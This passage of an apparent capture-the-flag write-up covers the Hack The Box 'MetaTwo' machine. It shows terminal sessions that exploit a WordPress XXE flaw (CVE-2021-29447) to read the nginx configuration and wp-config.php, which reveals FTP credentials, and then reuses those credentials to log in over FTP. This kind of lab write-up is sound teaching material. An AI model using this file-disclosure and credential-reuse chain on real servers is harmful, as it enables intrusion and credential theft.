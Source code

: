 #### Exfiltrate nginx default site configuration to obtain web application root directory
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo/CVE-2021-29447]
└─$ xxe_cat /etc/nginx/sites-available/default
server {

        listen 80;
        listen [::]:80;

        root /var/www/metapress.htb/blog;

        index index.php index.html;

        if ($http_host != "metapress.htb") {
                rewrite ^ http://metapress.htb/;
        }

        location / {
                try_files $uri $uri/ /index.php?$args;
        }
    
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php8.0-fpm.sock;
        }

        location ~* \.(js|css|png|jpg|jpeg|gif|ico|svg)$ {
                expires max;
                log_not_found off;
        }

}
```

#### Exfiltrate `wp-config.php` configuration to discover credentials for `metapress.htb` FTP user
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo/CVE-2021-29447]
└─$ xxe_cat /var/www/metapress.htb/blog/wp-config.php
<SNIP>
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
<SNIP>
```

#### Use `metapress.htb` FTP user to exfiltrate `send_email.php`
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo]
└─$ ftp metapress.htb@metapress.htb                                
Connected to metapress.htb.
220 ProFTPD Server (Debian) [::ffff:10.129.228.95]
331 Password required for metapress.htb
Password: 
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61654|)
```